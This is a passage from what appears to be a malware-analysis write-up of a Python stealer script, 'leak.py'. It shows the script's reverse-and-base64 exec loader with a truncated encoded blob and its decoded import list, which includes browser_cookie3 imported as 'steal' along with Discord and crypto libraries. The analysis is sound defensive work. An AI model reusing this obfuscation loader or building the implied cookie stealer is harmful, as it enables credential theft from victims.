 From above executed command, the downloaded zip file was extracted in `Public` users directory. And run a python script located in `C:\Users\Public\Document\Lib\leak.py`

#### Analyze "leak.py" File. 

Navigate to the python script location `C:\Users\Public\Document\Lib\leak.py`, used `strings` to read the file content.

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/55a7c671-4cf2-4f3f-b1a2-b1c4f5deb457" />

Once again, result return was another bunch of gibberish text, but this one quiet different cause the hidden commands has been encrypted using certain encryption method. Let discuss: 

```
_ = lambda __ : __import__('base64').b64decode(__[::-1]);exec((_)(b'=kSKnoFWoxWW5d2bYl3avlVajlDUWZETjdkTwZVMs9mUyoUYiRkThRWbodlWYlUNWFDZ3RFbkBVVXJ1RXtmVPJVMKR1Vsp
1Vj1mUZRFbOFmYGRGMW1GeoJVMadlVYxmbSJjThN2RxMFVF9WeZRlTr1UMSllUtBHWZVlSxV1aW9UTWplcX1WNYRmM0VUWxI0UhFjShVlaKdlTHdGeWxGbHZ1a180VrpFakBjWzZ1a5cUTWJ1VXxmVPd1RSJnVxgWY
iVUMM90VxUlVYJkVWJj............................(other longs how many bytes of encoded text that foking long)
```

Above command defines:

```
a lambda (anonymous function) _ that:

Takes an input string `__`

Reverses it with `__[::-1]`

Decodes it using Base64 `(b64decode)`

`__import__('base64')` is a sneaky way to import the base64 module without using the normal import keyword.
```

Here the `Malicious script` has been encrypt using the `base64` and reversed to make it more complex. Using `cyberchef`, bake the encrypted script using `reverse` and `base64`. Repeat the same step multiples time until we got the original text. 

```
import psutil
import platform
import json
from datetime import datetime
from time import sleep
import requests
import socket
from requests import get
import os
import re
import subprocess
from uuid import getnode as get_mac
import browser_cookie3 as steal, requests, base64, random, string, zipfile, shutil, os, re, sys, sqlite3
from cryptography.hazmat.primitives.ciphers import (Cipher, algorithms, modes)
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
from cryptography.hazmat.backends import default_backend
from Crypto.Cipher import AES
from base64 import b64decode, b64encode
from subprocess import Popen, PIPE
from json import loads, dumps
from shutil import copyfile
from sys import argv
import discord
from discord.ext import commands
from io import BytesIO
```